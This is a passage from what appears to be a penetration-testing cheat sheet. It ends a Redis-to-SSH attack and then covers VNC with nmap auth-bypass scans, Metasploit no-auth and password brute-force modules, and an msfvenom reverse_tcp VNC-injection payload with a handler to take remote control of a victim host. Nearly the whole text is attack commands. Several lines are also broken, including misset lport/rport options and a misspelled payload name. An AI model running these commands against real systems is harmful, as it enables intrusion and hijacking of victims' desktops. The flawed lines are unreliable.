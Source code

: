 ### Save changes
```
> save
```
### Try to login into server via SSH
```
chmod 600 id_rsa
ssh -i id_rsa redis@<victim_ip>
```

-------------------------------------------------------------------------------------------------------------------------------------

# VNC

--------------------------------------------------------------------------------------------------------------------------------

Gaphical desktop sharing system that uses the Remote Frame Buffer protocol (RFB) to remotely control another computer. It transmits the keyboard and mouse events from one computer to another. 

## VNC_nmap
```
nmap -sV --script realvnc-auth-bypass.nse [victim_ip] -p 5900

nmap --script vnc-info [victim_ip] -p 5901
```
## VNC_exploit
```
https://www.exploit-db.com/exploits/36932
```
## MSF_VNC_auth_none
```
  msf > use auxiliary/scanner/vnc/vnc_none_auth
  msf > set RHOSTS [target_ip]
  msf > set THREADS [int]
  msf > run
```

## MSF_VNC_password_attack
```
  msf > use auxiliary/scanner/vnc/vnc_login
  msf > set rhosts [victim_ip]
  msf > set rport [victim_ip
  msf > set pass_file /your/dictionary/file
  msf > run
```

## MSFVenom_VNC_payload
```
msfvenom -p windows/vncinject/reverse_tcp lhost=[your_ip] lport=[your_port] -f exe > /var/www/html/vnc.exe

  msf > use exploit/multi/handler
  msf > set payload/widnows/vncinject/reverse_tcp 
  msf > set lport [your_ip]
  msf > set lport [your_port]
  msf > set viewonly false
  msf > run
```
